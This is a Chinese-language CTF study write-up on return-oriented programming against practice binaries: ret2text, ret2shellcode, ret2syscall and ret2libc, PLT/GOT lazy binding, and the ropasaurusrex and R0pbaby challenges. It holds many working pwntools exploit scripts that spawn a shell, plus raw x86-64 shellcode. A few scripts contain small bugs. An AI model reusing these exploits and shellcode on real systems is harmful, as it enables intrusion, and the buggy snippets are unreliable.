Basic ROP
Basic-ROP
Basic-ROP
ret2text
没啥好说的，看过蒸米的就可以做出来了
exp：
from pwn import *
p=process('./ret2text')
sys_addr=0x804863A
payload='a'*112+p32(sys_addr)
p.sendline(payload)
p.interactive()
ret2shellcode
通过有一个复制的函数，会复制到 buf2 这个地方

而且 buf2 所在的是 bss 段

通过 gdb 查看 bss 段可执行，所以把只要把内容写到这个地方，然后返回地址跳转到 bss 段就可以执行 shellcode

掌握了一些 pwntools 的用法
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
print shellcraft.sh()
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
print shellcode.ljust(112,'A')
sh.interactive()
上面是给出的 exp 等价于下面的，可以发现 shellcraft.sh() 可以生成 shellcode
shellcode.ljust(112,'a') 可以控制垃圾数据与 shellcode 合起来的长度为112
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
shellcode+='a'*(112-len(shellcode))
print shellcode
buf2_addr = 0x804a080
sh.sendline(shellcode + p32(buf2_addr))
sh.interactive()
sniperoj-pwn100-shellcode-x86-64：
23字节shellcode
"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
首先根据 gdb 确定偏移，然后把因为有个 leave 指令会破坏前面的，所以前面的填充为脏数据，然后加上返回地址占据的 8 位空间，确定在 buf_addr 后面 24+8 填充 shellcode
from pwn import *
sh = process('./shellcode')
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sh.recvuntil('[')
buf_addr = sh.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)
payload = 'b' * 24 + p64(buf_addr + 32) + shellcode_x64
print payload
sh.sendline(payload)
sh.interactive()
ret2syscall
ret2syscall 即控制程序执行系统调用来获取 shell
关于系统调用的知识：
Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数
应用程序调用系统调用的过程是：
1、把系统调用的编号存入 EAX
2、把函数参数存入其它通用寄存器
3、触发 0x80 号中断（int 0x80）
那么我们如果希望通过系统调用来获取 shell 就需要把系统调用的参数放入各个寄存器，然后执行 int 0x80 就可以了
如果说想通过系统调用执行的是：execve("/bin/sh",NULL,NULL)（32位程序）
那么 eax 寄存器应该放系统调用号，查看 execve 的系统调用号：
cat /usr/include/asm/unistd_32.h | grep execve

得到 11，转换为 16 进制是 0xb，所以 eax 中应该存放 0xb
ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数设置为 0
所以现在需要做的就是让：
eax=0xb
ebx=/bin/sh 的地址
ecx=0
edx=0
只需要让栈顶的值是 0xb 然后可以通过 pop eax 达到目的
要用：ROPgadget 来查找
使用命令找到 pop eax：ROPgadget --binary rop --only 'pop|ret' | grep 'eax'

类似的，通过这条命令寻找控制其他寄存器的地址，找到可以控制多个的！

同时使用：ROPgadget --binary rop --string '/bin/sh' 找到 '/bin/sh' 字符串在什么地方

以及需要的 int 0x80：ROPgadget --binary rop --only 'int'

还有偏移的长度：

最后写出 exp：
"""自己写的"""
#!/usr/bin/env python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
"""ctf-wiki上的"""
from pwn import *
sh = process('./rop')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
#flat模块能将pattern字符串和地址结合并且转为字节模式
sh.sendline(payload)
sh.interactive()
ret2libc
例1
控制程序执行 libc 中的参数，通常是返回到某个函数的 plt 处，或者某个函数的具体位置（函数对应 got 表项的内容），一般情况会选择执行 system('/bin/sh')
看第一个程序：
得到偏移：

同时找到：/bin/sh 与 system 的地址


构造 exp：
from pwn import *
p=process('./ret2libc1')
bin_addr=0x8048720
sys_addr=0x8048460
payload='a'*112 + p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(bin_addr)
p.interactive()
例2
这一个没有了 "/bin/sh" 字符串，需要通过 gets 函数写到一个可读可写的地方，通常会找 bss 段，然后去执行 /bin/sh
通过查找，可以找到的数据如下：
sys_addr=0x8048490
get_addr=0x8048460
bss_addr=0x804A080
通过这些数据可以写出 exp：
from pwn import *
p=process('./ret2libc2')
sys_addr=0x8048490
get_addr=0x8048460
bss_addr=0x804A080
payload = 'a'*112 +p32(get_addr)+p32(sys_addr)+p32(bss_addr)+p32(bss_addr)
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
例3
没有 system 也没有 /bin/sh，需要使用 libc 中的 system 和 /bin/sh，知道了libc中的一个函数的地址就可以确定该程序利用的 libc，从而知道其他函数的地址
获得 libc 的某个函数的地址通常采用的方法是：通过 got 表泄露，但是由于libc的延迟绑定，需要泄露的是已经执行过的函数的地址
总的来说：
1、通过第一次溢出，通过将 puts 的 PLT 地址放到返回处，泄漏出执行过的函数的 GOT 地址（实际上 puts 的就可以）
2、将 puts 的返回地址设置为 _start 函数（main () 函数是用户代码的入口，是对用户而言的；而_start () 函数是系统代码的入口，是程序真正的入口），方便再次用来执行 system('/bin/sh')
3、通过泄露的函数的 GOT 地址计算出 libc 中的 system 和 /bin/sh 的地址
4、再次通过溢出将返回地址覆盖成泄露出来的 system 的地址 getshell
自己写的exp：
#!/usr/bin/env python
from pwn import *
from LibcSearcher import *
elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']
#gdb.attach(p)
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))
libc=LibcSearcher('puts',puts_addr)
libcbase=puts_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendlineafter("!?",payload2)
p.interactive()
dalao的 exp：
from pwn import *
sh = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = elf.libc
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
start_addr = elf.symbols['_start']
print "[*]puts plt: " + hex(puts_plt)
print "[*]puts got: " + hex(puts_got)
print "[*]_start addr: " + hex(start_addr)
print "[*]libc addr: " + hex(libc.address)
print "--" * 20
print "[*]sending payload1 to leak libc..."
payload = flat(["A" * 112, puts_plt, start_addr, puts_got])
sh.sendlineafter("Can you find it !?", payload)
puts_addr = u32(sh.recv(4))
print "[*]leak puts addr: " + hex(puts_addr)
libc.address = puts_addr - libc.symbols['puts']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search('/bin/sh'))
print "[*]leak libc addr: " + hex(libc.address)
print "[*]system addr: " + hex(system_addr)
print "[*]binsh addr: " + hex(binsh_addr)
print "--" * 20
print "[*]sending payload2 to getshell..."
payload2 = flat(["B" * 112, system_addr, "CCCC", binsh_addr])
sh.sendline(payload2)
sh.interactive()
train.cs.nctu.edu.tw：ret2libc
这道题开启了 NX 保护，然而运行的时候会把 puts 的地址跟 /bin/sh 的地址告诉我们，使用 pwntools 可以把地址提取出来，再根据 libcsearcher 查出 system 的地址，这样就可以 getshell 了
exp：
from pwn import *
from LibcSearcher import LibcSearcher
p=process('./pwn')
p.recvuntil('is ')
bin_addr = int(p.recvuntil('\n), 16)
print hex(bin_addr)
p.recvuntil('is ')
puts_addr = int(p.recvuntil('\n'), 16)
print hex(puts_addr)
libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
sys_addr=libc_base+libc.dump('system')
payload2='a'*32+p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(payload2)
p.interactive()
讲一下 p.recvuntil('is ') 代表的是 "is "之前的那一块，当下一个 recvuntil 的时候就会把这那块去掉了
把脚本里的第一个 p.recvuntil('is ') 替换成
print p.recvuntil('of ')
print p.recvuntil('is ')
就可以看出来作用是什么

ps.正常会输出这一些（"^C"是ctrl+c退出造成的，不包括）：

Linux动态链接
关于动态链接与静态链接，可以打个比方就是：如果我的文章引用了别人的一部分文字，在我发布文章的时候把别人的段落复制到我的文章里面就属于静态连接，而做一个超链接让你们自己去看就属于动态链接了
PLT&GOT
linux下的动态链接是通过PLT&GOT来实现的，这里做一个实验，通过这个实验来理解
使用如下源代码 test.c：
#include <stdio.h>
void print_banner()
{
printf("Welcome to World of PLT and GOT\n");
}
int main(void)
{
print_banner();
return 0;
}
依次使用下列命令进行编译：
gcc -Wall -g -o test.o -c test.c -m32
gcc -o test test.o -m32
这样除了原有的 test.c 还有个 test.o 以及可执行文件 test
通过 objdump -d test.o 可以查看反汇编

printf() 和函数是在 glibc 动态库里面的，只有当程序运行起来的时候才能确定地址，所以此时的 printf() 函数先用 fc ff ff ff 也就是有符号数的 -4 代替
运行时进行重定位是无法修改代码段的，只能将 printf 重定位到数据段，但是已经编译好的程序，调用 printf 的时候怎么才能找到这个地址呐？
链接器会额外生成一小段代码，通过这段代码来获取 printf() 的地址，像下面这样，进行链接的时候只需要对printf_stub() 进行重定位操作就可以
.text
...
// 调用printf的call指令
call printf_stub
...
printf_stub:
mov rax, [printf函数的储存地址] // 获取printf重定位之后的地址
jmp rax // 跳过去执行printf函数
.data
...
printf函数的储存地址,这里储存printf函数重定位后的地址
总体来说，动态链接每个函数需要两个东西：
1、用来存放外部函数地址的数据段
2、用来获取数据段记录的外部函数地址的代码
对应有两个表，一个用来存放外部的函数地址的数据表称为全局偏移表（GOT, Global Offset Table），那个存放额外代码的表称为程序链接表（PLT，Procedure Link Table）

可执行文件里面保存的是 PLT 表的地址，对应 PLT 地址指向的是 GOT 的地址，GOT 表指向的就是 glibc 中的地址
那我们可以发现，在这里面想要通过 plt 表获取函数的地址，首先要保证 got 表已经获取了正确的地址，但是在一开始就进行所有函数的重定位是比较麻烦的，为此，linux 引入了延迟绑定机制
延迟绑定
只有动态库函数在被调用时，才会地址解析和重定位工作，为此可以使用类似这样的代码来实现：
//一开始没有重定位的时候将 printf@got 填成 lookup_printf 的地址
void printf@plt()
{
address_good:
jmp *printf@got
lookup_printf:
调用重定位函数查找 printf 地址，并写到 printf@got
goto address_good;//再返回去执行address_good
}
说明一下这段代码工作流程，一开始，printf@got 是 lookup_printf 函数的地址，这个函数用来寻找 printf() 的地址，然后写入 printf@got，lookup_printf 执行完成后会返回到 address_good，这样再 jmp 的话就可以直接跳到printf 来执行了
也就是说这样的机制的话如果不知道 printf 的地址，就去找一下，知道的话就直接去 jmp 执行 printf 了
接下来，我们就来看一下这个“找”的工作是怎么实现的：
通过 objdump -d test > test.asm 可以看到其中 plt 表项有三条指令
Disassembly of section .plt:
080482d0 <common@plt>:
80482d0: ff 35 04 a0 04 08 pushl 0x804a004
80482d6: ff 25 08 a0 04 08 jmp *0x804a008
80482dc: 00 00 add %al,(%eax)
...
080482e0 <puts@plt>:
80482e0: ff 25 0c a0 04 08 jmp *0x804a00c
80482e6: 68 00 00 00 00 push $0x0
80482eb: e9 e0 ff ff ff jmp 80482d0 <_init+0x28>
080482f0 <__libc_start_main@plt>:
80482f0: ff 25 10 a0 04 08 jmp *0x804a010
80482f6: 68 08 00 00 00 push $0x8
80482fb: e9 d0 ff ff ff jmp 80482d0 <_init+0x28>
ps.这里 plt 表的第一项使用 objdump 的时候给没有符号名的一项自动改成了离他最近的一项，为了避免引起误会，改成了 common，而且随着不断深入，会发现，确实可以叫 common
其中除第一个表项以外，plt 表的第一条都是跳转到对应的 got 表项，而 got 表项的内容我们可以通过 gdb 来看一下，如果函数还没有执行的时候，这里的地址是对应 plt 表项的下一条命令，即 push 0x0
（说一下怎么查看，先 gdb test 然后 b main，再 run， 再 x/x jmp的那个地址 就可以）

还记得之前我们说的，在还没有执行过函数之前 printf@got 的内容是 lookup_printf 函数的地址吗，这就是要去找 printf 函数的地址了
现在要做的是：
push $0x0 //将数据压到栈上，作为将要执行的函数的参数
jmp 0x80482d0 //去到了第一个表项
接下来继续
080482d0 <common@plt>:
pushl 0x804a004 //将数据压到栈上，作为后面函数的参数
jmp *0x804a008 //跳转到函数
add %al,(%eax)
...
我们同样可以使用 gdb 来看一下这里面到底是什么，可以看到，在没有执行之前是全 0

当执行后他有了值

这个值对应的函数是 _dl_runtime_resolve
那现在做一个小总结：
在想要调用的函数没有被调用过，想要调用他的时候，是按照这个过程来调用的
xxx@plt -> xxx@got -> xxx@plt -> 公共@plt -> _dl_runtime_resolve
到这里我们还需要知道
- _dl_runtime_resolve 是怎么知道要查找 printf 函数的
- _dl_runtime_resolve 找到 printf 函数地址之后，它怎么知道回填到哪个 GOT 表项
第一个问题，在 xxx@plt 中，我们在 jmp 之前 push 了一个参数，每个 xxx@plt 的 push 的操作数都不一样，那个参数就相当于函数的 id，告诉了 _dl_runtime_resolve 要去找哪一个函数的地址
在 elf 文件中 .rel.plt 保存了重定位表的信息，使用 readelf -r test 命令可以查看 test 可执行文件中的重定位信息

这里有些问题，对应着大佬博客说 plt 中 push 的操作数，就是对应函数在.rel.plt 段的偏移量，但是没对比出来
第二个问题，看 .rel.plt 的位置就对应着 xxx@plt 里 jmp 的地址
在 i386 架构下，除了每个函数占用一个 GOT 表项外，GOT 表项还保留了３个公共表项，也即 got 的前３项，分别保存：
got [0]: 本 ELF 动态段 (.dynamic 段）的装载地址 **
got [1]：本 ELF 的 link_map 数据结构描述符地址 **
got [2]：_dl_runtime_resolve 函数的地址
动态链接器在加载完 ELF 之后，都会将这３地址写到 GOT 表的前３项
跟着大佬的流程图来走一遍：
第一次调用

之后再次调用
Practice
train.cs.nctu.edu.tw：rop
没找到题目，从大佬博客里面找到的，题目使用 nc 连上以后会输出这些 gadgets 需要自己去构造 payload

把 push 的那一些16进制转换一下

大佬说通过这些就可以构造出 payload 了
exp：我连不上。。。
from pwn import *
sh = remote('bamboofox.cs.nctu.edu.tw',10001)
payload = "9,9,1,10,9,3,3,12,4,12,2,2,8,8,8,8,8,0"
sh.sendline(payload)
sh.interactive()
2013-PlaidCTF-ropasaurusrex
没有 system 和 /bin/sh，通过 ret2libc 的方法在libc里面找到，这里注意一下第一次泄露的是 got 表的内容，写成了 plt 的，结果废了两个小时没看出来，还以为又出现了什么超出知识水平的操作，，CTF需要视力！！
exp：
from pwn import *
from LibcSearcher import LibcSearcher
p=process('./rop')
elf=ELF('./rop')
write_plt=elf.plt['write']
write_got=elf.got['write']
payload='a'*140+p32(write_plt)+p32(0x80483F4)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload)
write_addr=u32(p.recv(4))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_addr=libc_base+libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')
payload1='a'*140+p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(payload1)
p.interactive()
Defcon 2015 Qualifier: R0pbaby
checksec 检查一下，发现是64位程序，所以参数应该是存储在 rdi 寄存器上
64 位程序当参数少于 7 个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9
通过 ROPgadget --binary /libc/x86_64-linux-gnu/ libc.so.6 --only "pop|ret" | grep "rdi"
获取到 pop rdi ；ret 的地址：

通过程序自身提供的功能，可以获取到 libc 的地址与任意函数的地址

同时第三个功能存在溢出，经过计算溢出的长度为 8

写 exp：
from pwn import *
from LibcSearcher import *
p=process('./pwn')
elf=ELF('./pwn')
rdi_offset=0x0000000000021102
p.recvuntil(': ')
p.sendline('2')
p.recvuntil('symbol: ')
p.sendline('system')
p.recvuntil(': ')
sys_addr=p.recvuntil('\n',drop=True)
sys_addr=int(sys_addr,16)
libc=LibcSearcher('system',sys_addr)
libc_base=sys_addr-libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')
rdi_addr=libc_base+rdi_offset
payload='a'*8+p64(rdi_addr)+p64(bin_addr)+p64(sys_addr)
p.recvuntil(': ')
p.sendline('3')
p.recvuntil('): ')
length=len(payload)
print length
print str(length)
p.sendline(str(length))
p.sendline(payload)
p.interactive()
大佬的exp：
from pwn import *
from LibcSearcher import *
ropbaby = ELF('./pwn')
sh = process('./pwn')
context.word_size = 64
def getfuncaddress(func):
sh.recvuntil(': ')
sh.sendline('2')
sh.recvuntil('symbol: ')
sh.sendline(func)
sh.recvuntil(': ')
addr = sh.recvuntil('\n', drop=True)
return int(addr, 16)
def addropbuff(payload):
sh.recvuntil(': ')
sh.sendline('3')
sh.recvuntil('): ')
length = len(payload)
sh.sendline(str(length))
sh.sendline(payload)
rdi_ret_offset = 0x0000000000021102
system_addr = getfuncaddress('system')
libc = LibcSearcher('system', system_addr)
libc_base = system_addr - libc.dump('system')
binsh_addr = libc.dump('str_bin_sh') + libc_base
rdi_ret = rdi_ret_offset + libc_base
print hex(system_addr), hex(binsh_addr), hex(rdi_ret)
payload = flat(['b' * 8, rdi_ret, binsh_addr, system_addr])
addropbuff(payload)
sh.interactive()